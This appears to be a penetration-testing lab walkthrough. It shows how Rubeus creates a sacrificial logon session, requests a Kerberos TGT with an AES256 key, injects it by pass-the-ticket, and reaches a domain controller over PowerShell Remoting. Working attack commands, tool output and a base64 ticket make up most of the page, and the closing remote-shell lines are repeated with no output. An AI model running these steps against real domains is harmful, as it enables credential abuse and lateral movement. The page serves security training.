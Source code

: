 ### **Rubeus - PowerShell Remoting with Pass the Ticket**

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

**Create a Sacrificial Process with Rubeus**

- `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`

  The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

- `Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`

```jsx
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname